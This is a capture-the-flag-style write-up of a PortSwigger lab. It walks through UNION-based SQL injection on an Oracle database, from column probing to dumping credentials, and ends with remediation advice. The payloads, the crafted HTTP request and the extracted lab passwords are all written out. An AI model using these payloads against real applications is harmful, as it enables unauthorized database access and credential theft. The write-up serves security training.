







# Lab 06: SQL Injection Attack, Listing the Database Contents on Oracle

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 22, 2026

---

## 1. Objective
Exploit a `UNION`-based SQL injection vulnerability in the product category filter on an Oracle database to enumerate table and column names using Oracle data dictionary views (`all_tables` and `all_tab_columns`), retrieve the `administrator` credentials, and log in to the application.

---

## 2. Reconnaissance & Oracle Enumeration
- **Target Endpoint:** `GET /filter?category=Pets`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Determine Column Count (`ORDER BY`):**
   - Tested `' order by 2--` $\rightarrow$ returned **HTTP 200 OK**.
   - Tested `' order by 3--` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **2 columns**.
2. **Determine String-Compatible Columns (`FROM DUAL`):**
   - Oracle requires every `SELECT` statement to include a `FROM` clause.
   - Tested `' UNION select 'a', 'a' from DUAL--` $\rightarrow$ returned **HTTP 200 OK**, confirming both columns accept character/text data.
3. **Enumerate Database Tables (`all_tables`):**
   - Oracle does not support `information_schema.tables`; instead, we query `all_tables`.
   - Payload: `' UNION select table_name, NULL from all_tables--`
   - Located the randomized uppercase users table: **`USERS_CDHBZF`**.
4. **Enumerate Columns in `USERS_CDHBZF` (`all_tab_columns`):**
   - Payload: `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_CDHBZF'--`
   - Located the two randomized credential columns: **`USERNAME_ELCFDQ`** and **`PASSWORD_TVHDLX`**.

---

## 3. Exploitation & Proof of Concept (PoC)
Using the enumerated table and column identifiers, we query `USERS_CDHBZF` to extract all stored user credentials.

### Final Payload
```sql
' UNION select USERNAME_ELCFDQ, PASSWORD_TVHDLX from USERS_CDHBZF--
```

Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Pets' UNION select USERNAME_ELCFDQ, PASSWORD_TVHDLX from USERS_CDHBZF-- HTTP/2
Host: 0ab300a203a7bebe80ca35c600180011.web-security-academy.net
Cookie: session=[REDACTED]
```
Extracted Credentials
```
Username                Password
administrator        duybb4r2b0ke6qyy7ci8
carlos               0zxhadzlfw90p79ln4hy

```
Logging in via /login with administrator:duybb4r2b0ke6qyy7ci8 grants administrative access and solves the lab.

Proof of Exploitation Screenshots
1. Confirming 2 Columns (' order by 2--):

2. Confirming Text Data Types (' UNION select 'a', 'a' from DUAL--):

3. Enumerating Table Name (USERS_CDHBZF):

4. Enumerating Username Column (USERNAME_ELCFDQ):

5. Enumerating Password Column (PASSWORD_TVHDLX):

6. Extracting User Credentials:

7. Lab Completion Banner:


## 4. Impact
An unauthenticated attacker can query Oracle's built-in data dictionary views (all_tables and all_tab_columns) to map internal table schemas and extract sensitive user credentials, resulting in full administrative account takeover (administrator).

## 5. Remediation
Primary Fix (Parameterized Queries / Bind Variables): Use prepared statements with bind variables so user-supplied input in category is never concatenated directly into the SQL command:

```
// Secure Java JDBC Example for Oracle
String query = "SELECT * FROM products WHERE category = ?";
PreparedStatement pstmt = connection.prepareStatement(query);
pstmt.setString(1, category);
ResultSet results = pstmt.executeQuery();
```
Input Validation: Validate the category parameter against a strict allowlist of known product categories before executing the database query.

